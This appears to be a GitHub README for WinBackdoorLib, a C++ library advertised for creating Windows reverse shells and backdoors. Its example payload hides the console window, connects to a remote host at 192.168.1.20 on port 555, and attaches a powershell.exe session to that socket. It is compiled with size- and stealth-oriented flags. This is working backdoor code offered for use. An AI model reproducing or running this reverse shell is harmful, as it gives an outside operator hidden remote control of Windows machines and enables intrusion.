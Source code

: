 # WinBackdoorLib
a simple Lib to create "reverse shell or backdoor" simply with Windows API

![Image1](screen.PNG)


## example Payload :
  ```cpp
  //compile : g++ socket_winbd.cpp test_winbd.cpp -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
#include "socket_winbd.h" //to start, we're including our header in our file.

int main() // 
{
    FreeConsole(); // hide console
    SOCKET socks; // equ int socks;
    WSADATA wsa; // equ for wsa

    struct sockaddr_in session; //we declare the structure "sockaddr_in" which will be named session

    WSAStartup(MAKEWORD(2, 2), &wsa); // startup WSA
    socks = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0); // socket configuration

    session.sin_family = AF_INET; // socket Family (AF_INET)
    session.sin_addr.s_addr = inet_addr("192.168.1.20"); // set the address
    session.sin_port = htons(555); // set the port

    int c = connect(socks, session); // connect to remote host
    if (c != -1)
    {
        execute_process(socks, "powershell.exe"); // Handle Process
    }
    return 0;
}
  ```
  <a href="https://unam3dd.github.io/WinbdDocs/">View Documentation</a>
